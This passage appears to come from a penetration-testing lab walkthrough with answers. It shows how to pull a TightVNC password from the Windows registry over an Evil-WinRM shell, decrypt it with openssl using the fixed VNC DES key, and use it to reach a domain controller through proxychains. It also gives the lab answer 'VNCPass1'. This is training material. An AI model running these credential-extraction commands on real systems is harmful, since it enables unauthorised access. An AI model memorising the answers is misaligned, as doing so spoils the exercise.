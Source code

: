 Students will query the registry key `HKLM\SOFTWARE\TightVNC\Server` to obtain the `Password` value:

Code: shell

```shell
reg query HKLM\SOFTWARE\TightVNC\Server /s
```

```
*Evil-WinRM* PS C:\Users\helen\Documents> reg query HKLM\SOFTWARE\TightVNC\Server /s

HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server
    ExtraPorts    REG_SZ
    <SNIP>
    EnableUrlParams    REG_DWORD    0x1
    Password    REG_BINARY    816ECB5CE758EABD
```

Students will return to their workstations, open a new terminal tab, and proceed to decrypt the password value:

Code: shell

```shell
echo -n 816ECB5CE758EABD | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```

```
┌─[eu-academy-5]─[10.10.14.133]─[htb-ac-8414@htb-ise2nzsvgt]─[~]
└──╼ [★]$ echo -n 816ECB5CE758EABD | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv

00000000  56 4e 43 50 61 73 73 31                           |{hidden}|
00000008
```

Answer: `VNCPass1`

# Remote Management Tools

## Question 2

### "Use VNC to connect to the DC01. What's the username of the account logged into the DC01 console?"

Students will reuse the previously spawned target and dynamic port-forwarding and connect to `DC01` (`172.20.0.10`) using `vncviewer` and submit the password `VNCPass1`:

Code: shell

```shell
proxychains vncviewer 172.20.0.10
```
